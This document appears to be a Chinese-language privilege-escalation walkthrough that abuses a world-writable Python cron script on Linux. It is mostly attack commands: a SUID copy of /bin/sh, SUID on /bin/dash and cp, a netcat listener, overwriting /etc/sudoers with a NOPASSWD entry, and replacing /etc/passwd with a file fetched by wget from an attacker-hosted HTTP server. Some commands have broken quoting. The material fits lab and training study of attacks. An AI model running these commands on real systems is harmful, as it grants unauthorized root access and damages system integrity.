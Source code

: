 #### 枚举所有具有可写权限的二进制文件
- 枚举所有具有可写权限的二进制文件
- 在/lib/log路径下有一个python文件，我们进入到该目录并查看该文件的权限为777
```cmd
find / -writable -type  f 2>/dev/null | grep -v "/proc/"
```
通过cat命令查看该文件内容，这是管理员添加的一个用来清除 /tmp中的所有垃圾文件的脚本，具体执行取决于管理员设置的定时间隔

#### method 1
复制了/bin/sh到/tmp下并为/tmp/sh启用了SUID
```cmd
os.system('cp /bin/sh /tmp/sh')
os.system('chmod u+s /tmp/sh')
```

将在/tmp目录内创建一个具有SUID权限的sh文件
```cmd
cd /tmp
ls
./sh
id
whoami
```

#### method 2
可以将 "rm -r /tmp/*" 替换为
```cmd
os.system(‘chmod u+s /bin/dash)
```
它将为/bin/dash设置SUID权限，并且在运行时会给予root访问权限
```cmd
/bin/dash
id
whoami
```

#### method 3
```cmd
nc -lvp 1234
id
whoami
```

#### method 4
让自己成为suoders文件成员
```cmd
os.system('echo "wernerbrandes ALL=(ALL) NOPASSWD: ALL" > /etc/sudoers')
```

```cmd
sudo -l
sudo bash
id
```

#### method 5
```cmd
openssl passwd -1 -salt abc 123
```

```cmd
cd Desktop
python -m SimpleHTTPServer 80
```

```cmd
os.system(‘chmod u+s /bin/cp)
```

```cmd
cd /tmp
wget http://192.168.1.103/passwd
ls -al /bin/cp
cp passwd /etc/passwd
```

```cmd
tail /etc/passwd
```

```cmd
su nemo
password 123
whoami
```
